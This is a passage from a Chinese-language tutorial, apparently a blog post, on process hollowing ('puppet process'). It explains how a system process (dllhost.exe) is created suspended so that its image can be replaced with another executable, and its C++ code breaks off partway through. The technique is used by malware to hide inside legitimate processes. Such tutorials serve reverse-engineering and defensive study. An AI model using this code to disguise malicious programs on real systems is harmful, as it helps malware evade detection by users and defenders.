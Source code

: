     这里是替换节区。

![](https://gitee.com/fuli009/images/raw/master/public/20221112175442.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221112175444.png)

    走到这里就说明我们的PE已经被完全替换了，那么我们需要给他替换一下寄存器才能让他执行起来。

 **设置线程上下文，恢复线程**

![](https://gitee.com/fuli009/images/raw/master/public/20221112175445.png)

    ebx+8的位置本身存放的是原来默认的PE，我们这里给他替换成我们申请内存的PE，然后恢复线程基本就完成了我们的隐藏。
    
    
    #include <iostream>  
    #include <Windows.h>  
    #include <winternl.h>  
      
    #define EXE_PATH R"(C:\Users\admin\Desktop\code\傀儡进程\Debug\demo.exe)"  
      
    //int CALLBACK WinMain(  
    // HINSTANCE hInstance,  
    // HINSTANCE hPrevInstance,  
    // LPSTR lpCmdLine,  
    // int nCmdShow  
    //)  
    int main(void)  
    {  
      // 获取 32位dllhost.exe路径  
      char pickerHostPath[MAX_PATH] = { 0 };  
      ExpandEnvironmentStringsA("%SystemRoot%\\SysWOW64\\dllhost.exe", pickerHostPath, MAX_PATH);  
      
      // 打开进程  
      STARTUPINFOA si = { sizeof(STARTUPINFOA) };  
      PROCESS_INFORMATION pi = { 0 };  
      if (!CreateProcessA(NULL, pickerHostPath, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) // 挂起形式创建  
      {  
        return -1;  
      }  
      
      std::cout << "process pid:" << pi.dwProcessId << std::endl;  
      std::cin.get();  
      
      // 打开文件  
      HANDLE hFile = CreateFileA(EXE_PATH, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);  
      if (hFile == INVALID_HANDLE_VALUE)  
      {  
        // 打开失败结束之前的进程  
        TerminateProcess(pi.hProcess, 1);  
        return -1;  
      }  
      
      // 获取文件的大小  
      DWORD nSizeOfFile = GetFileSize(hFile, NULL);  
      std::cout << "file size:" << nSizeOfFile << std::endl;  
      